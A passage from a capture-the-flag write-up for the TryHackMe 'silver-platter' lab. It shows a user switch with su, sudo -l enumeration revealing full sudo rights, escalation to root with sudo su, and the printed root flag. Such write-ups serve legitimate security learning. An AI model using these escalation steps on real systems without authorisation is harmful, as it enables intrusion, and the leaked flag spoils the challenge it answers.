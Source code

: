## Vertical Escalation

```bash
tim@silver-platter:~$ su tyler
Password: 
tyler@silver-platter:/home/tim$
```
- SUCCESS! We have logged in as `tyler`. Now we can check sudo privileges with `tyler`.
```bash
tyler@silver-platter:/home/tim$ sudo -l
Matching Defaults entries for tyler on silver-platter:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User tyler may run the following commands on silver-platter:
    (ALL : ALL) ALL
```
- We can simply switch to the root account with `sudo su`.
```bash
tyler@silver-platter:/home/tim$ sudo su
root@silver-platter:/home/tim# cd /root
root@silver-platter:~# cat root.txt 
THM{098f6bcd4621d373cade4e832627b4f6}
```
🚩 **FLAG 2**: _THM{098f6bcd4621d373cade4e832627b4f6}_





